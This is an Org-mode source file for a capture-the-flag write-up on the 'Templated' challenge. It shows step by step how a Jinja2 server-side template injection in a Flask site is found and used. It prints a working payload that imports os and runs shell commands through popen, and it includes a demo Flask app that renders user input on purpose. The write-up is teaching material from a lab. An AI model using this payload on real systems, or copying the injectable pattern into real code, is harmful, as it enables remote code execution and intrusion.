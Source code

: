 #+TITLE: Templated
#+AUTHOR: AsmArtisan256
#+DATE: 16-01-2021

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: templated

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

When you enter the given URL, you are directly presented with this text:

#+begin_src
Site still under construction
Proudly powered by Flask/Jinja2
#+end_src

This information is here for a reason. You have two different technologies that
go hand-in-hand when doing simple Python web development: Flask and Jinja2.
First thing you can think of is that maybe Flask has some vulnerabilities that
can be exploited. And altough that could be true, the title of the challenge is
an hint.
=Templated=... and Jinja2 is a template engine. Therefore, this could be a
challenge where you have to know how to exploit a Server Side Template Injection
(SSTI).
First thing we can try, to verify this is doing something like this on the
Address Bar: =http://209.97.138.240:30840/{{1+1}}=. We are trying to check if
=1+1= is evaluated.

We get this after submitting the URL:

#+begin_src
Error 404
The page '2' could not be found
#+end_src

It seems ={{1+1}}= was evaluated to =2=! So it is confirmed that we are able to
do an SSTI.
An object we can access on a GET request is called =request=.
If we execute =http://209.97.138.240:30840/{{request}}= we get this string
=<Request 'http://209.97.138.240:30840/%7B%7Brequest%7D%7D' [GET]>= which
represents an object in Python.
From this object, we can see its methods and attributes. We may try doing a
request to =http://209.97.138.240:30840/{{dir(request)}}= but we will encounter
a 500 Internal Server Error without any relevant information.

For this, I just fired an instance of Flask on my side using the following code:

#+begin_src python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        print(dir(request))
        return "test"

if __name__ == "__main__":
    app.run(debug=True)
#+end_src

Then I just executed =python app.py= and follow the URL.
Then the output of `dir(request)` will be printed to the console:

#+begin_src python
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__enter__', '__eq__', '__exit__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_cached_json', '_get_data_for_json', '_get_file_stream', '_get_stream_for_parsing', '_load_form_data', '_parse_content_type', 'accept_charsets', 'accept_encodings', 'accept_languages', 'accept_mimetypes', 'access_control_request_headers', 'access_control_request_method', 'access_route', 'application', 'args', 'authorization', 'base_url', 'blueprint', 'cache_control', 'charset', 'close', 'content_encoding', 'content_length', 'content_md5', 'content_type', 'cookies', 'data', 'date', 'dict_storage_class', 'disable_data_descriptor', 'encoding_errors', 'endpoint', 'environ', 'files', 'form', 'form_data_parser_class', 'from_values', 'full_path', 'get_data', 'get_json', 'headers', 'host', 'host_url', 'if_match', 'if_modified_since', 'if_none_match', 'if_range', 'if_unmodified_since', 'input_stream', 'is_json', 'is_multiprocess', 'is_multithread', 'is_run_once', 'is_secure', 'json', 'json_module', 'list_storage_class', 'make_form_data_parser', 'max_content_length', 'max_form_memory_size', 'max_forwards', 'method', 'mimetype', 'mimetype_params', 'on_json_loading_failed', 'origin', 'parameter_storage_class', 'path', 'pragma', 'query_string', 'range', 'referrer', 'remote_addr', 'remote_user', 'routing_exception', 'scheme', 'script_root', 'shallow', 'stream', 'trusted_hosts', 'url', 'url_charset', 'url_root', 'url_rule', 'user_agent', 'values', 'view_args', 'want_form_data_parsed']
#+end_src

From here we find =application= attribute which is relevant for what we want to
do.

By following this logic, now there is a possibility of using
[[https://www.python.org/download/releases/2.3/mro/][Python MRO]] to our advantage do actually
execute any shell command we want. We can import any python module by using =__import__= through the =request=
object from Flask:

#+begin_src
{{request.application.__globals__.__builtins__.__import__}}
#+end_src

A module that is used to execute shell commands is =os=, where we can use the
=popen= method. We can first try and check the id of the current user:

#+begin_src
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
#+end_src

The result is as follows:

#+begin_src
uid=0(root) gid=0(root) groups=0(root)
#+end_src

We are already root! Now let us see what `ls` gives us:

#+begin_src
bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
#+end_src

We can clearly see that we are on the root directory of the filesystem, which
has a file called =flag.txt=.

To read the flag, we just do =cat flag.txt=!

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">16-01-2021</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
